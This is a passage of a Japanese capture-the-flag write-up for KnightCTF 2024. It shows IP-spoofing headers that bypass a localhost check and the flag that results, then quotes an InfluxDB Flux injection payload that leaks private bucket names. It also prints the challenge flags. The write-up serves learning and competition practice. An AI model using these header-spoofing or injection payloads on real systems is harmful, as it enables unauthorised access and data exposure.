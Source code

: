 ```http
Client-IP: 127.0.0.1
True-Client-IP: 127.0.0.1
Cluster-Client-IP: 127.0.0.1
X-ProxyUser-Ip: 127.0.0.1


```

フラグが取れました。

```http
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 34
Server: Werkzeug/2.0.3 Python/3.6.15
Date: Sun, 21 Jan 2024 07:09:43 GMT

{"result":"KCTF{kud05w3lld0n3!}"}
```

どうやら以下のヘッダがあればよいようです。

```text
Forwarded-For: 127.0.0.1
```

- Flag

```text
KCTF{kud05w3lld0n3!}
```

### Fluxx

340 points / 33 solves

解けなかった問題で、ソースコード無し。  
問題文からTime-series Databaseに関係すると思われます。

他の人のWriteupを見ると、InfluxDBが使われておりNoSQL Injectionが可能なようでした。  
<https://rafa.hashnode.dev/influxdb-nosql-injection>

以下のような形でプライベートなバケットを取得できるようです。

```text
") |> yield(name: "1337") 
buckets() |> filter(fn: (r) => r.name =~ /^a.*/ and die(msg:r.name)) 
//
```

参考：
<https://github.com/Aryt3/writeups/tree/main/jeopardy_ctfs/2024/knight_ctf_2024/Fluxx>

### Gain Access 1

100 points / 118 solves

与えられたURLにアクセスすると、ログイン画面が表示されます。
